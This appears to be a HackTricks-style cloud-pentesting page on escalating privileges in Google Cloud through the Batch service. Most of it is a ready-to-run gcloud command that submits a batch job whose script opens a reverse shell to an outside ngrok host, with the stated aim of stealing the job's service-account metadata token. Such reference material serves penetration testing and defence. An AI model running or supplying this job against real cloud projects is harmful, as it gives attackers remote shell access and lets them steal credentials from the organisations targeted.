 # GCP - Batch Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Batch

Basic information:

{{#ref}}
../gcp-services/gcp-batch-enum.md
{{#endref}}

### `batch.jobs.create`, `iam.serviceAccounts.actAs`

It's possible to create a batch job, get a reverse shell and exfiltrate the metadata token of the SA (compute SA by default).

```bash
gcloud beta batch jobs submit job-lxo3b2ub --location us-east1 --config - <<EOD
{
  "name": "projects/gcp-labs-35jfenjy/locations/us-central1/jobs/job-lxo3b2ub",
  "taskGroups": [
    {
      "taskCount": "1",
      "parallelism": "1",
      "taskSpec": {
        "computeResource": {
          "cpuMilli": "1000",
          "memoryMib": "512"
        },
        "runnables": [
          {
            "script": {
              "text": "/bin/bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/10396 0>&1'\n"
            }
          }
        ],
        "volumes": []
      }
    }
  ],
  "allocationPolicy": {
    "instances": [
      {
        "policy": {
          "provisioningModel": "STANDARD",
          "machineType": "e2-micro"
        }
      }
    ]
  },
  "logsPolicy": {
    "destination": "CLOUD_LOGGING"
  }
}
EOD
```

{{#include ../../../banners/hacktricks-training.md}}




